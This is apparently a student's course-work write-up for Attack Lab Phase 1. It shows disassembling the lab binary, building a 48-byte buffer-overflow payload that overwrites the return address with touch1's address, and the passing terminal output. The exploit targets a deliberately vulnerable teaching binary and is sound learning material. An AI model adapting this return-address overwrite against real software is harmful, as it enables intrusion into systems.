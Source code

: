 ```yaml
---
category:
- Course Work
date: '2022-04-23T00:00:00+08:00'
tags:
- Attack_Lab
- Computer_Organization_and_Architecture
title: 'Attack Lab: Phase 1'
---
```


###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401b3e <touch1>:
...
```

###### Write File `phase-1.txt`

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
3e 1b 40 00 00 00 00 00
```

###### Run

```bash
./hex2raw < phase-1.txt > phase-1.in
./ctarget -i phase-1.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

